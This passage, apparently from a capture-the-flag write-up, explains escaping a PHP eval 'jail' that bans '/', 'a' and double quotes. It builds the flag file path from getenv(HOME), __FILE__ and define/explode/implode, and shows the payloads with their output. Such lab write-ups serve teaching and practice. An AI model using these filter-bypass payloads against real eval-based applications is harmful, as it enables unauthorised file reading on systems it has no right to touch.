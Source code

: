 a) I needed the "/" character (is also not allowed)
b) I needed the "a" character
c) I needed a way to define a string without using double quotes
d) I wanted to somehow build the string "/home/level4/flag.txt" with allowed characters and use it with `glob`

Now the solutions to every particular problem:

a) Using `phpinfo();` I've found out that there were some *environment* variables I could use to extract the "/". Then I ran:

```.php
print_r(getenv(HOME));
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
/home/level4Command executed
```

Then I could extract the "/" by using 

```.php
getenv(HOME)[0];
```

b) PHP has some **predefined constants** like `__FILE__`, `__DIR__` and so on:

```.php
print_r(__FILE__);
/home/level4/jail.php(14) : eval()'d codeCommand executed
```
Using `__FILE__` I can extract "a" and ".".

c) Using `define()`, `implode()`/`explode()` one could define contants as strings and use array operations to extract/concat characters:

```.php
define(HEY,__FILE__);print_r(explode(getenv(HOME)[0],HEY));
PHP Notice:  Use of undefined constant HEY - assumed 'HEY' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
Array
(
    [0] => 
    [1] => home
    [2] => level4
    [3] => jail.php(14) : eval()'d code
)
```  

By using `implode()` you can then concatenate several characters:

```.php
print_r(implode(getenv(HOME)[0],[getenv(HOME)[0],home,level4,file]));
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant HOME - assumed 'HOME' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant home - assumed 'home' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant level4 - assumed 'level4' in /home/level4/jail.php(14) : eval()'d code on line 1
PHP Notice:  Use of undefined constant file - assumed 'file' in /home/level4/jail.php(14) : eval()'d code on line 1
//home/level4/fileCommand executed
```
